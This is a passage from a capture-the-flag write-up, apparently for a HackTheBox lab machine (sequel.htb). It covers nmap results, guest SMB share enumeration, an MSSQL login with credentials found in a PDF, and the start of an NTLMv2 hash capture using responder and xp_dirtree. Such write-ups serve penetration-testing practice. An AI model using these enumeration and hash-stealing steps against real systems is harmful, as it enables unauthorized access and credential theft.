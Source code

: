 ```
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m56s, deviation: 0s, median: 7h59m56s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   29.77 ms 10.10.14.1
2   30.15 ms 10.10.11.202

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 189.60 seconds
```

## SMB

Checking gest account and adding sequel.htb to /etc/hosts

```
nxc smb 10.10.11.202 -u "Guest" -p "" --shares
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912101805.png)

after downloading file and open pdf we can see user and password for Guest user

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912102040.png)

Tried kerberoasting and as-rep roasting but no hit, let's move do db

## MSSQL

```
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@sequel.htb
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912102859.png)

We cannot enable cmd shell
enumerating DB I found only 4 default dbs

```
select name from master..sysdatabases;
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912103319.png)

Next thought is stealing ntlmv2 hash like in Querier box and we got hit
Start responder and then execute xp_dirtree command

```
responder -I tun0 -A
```
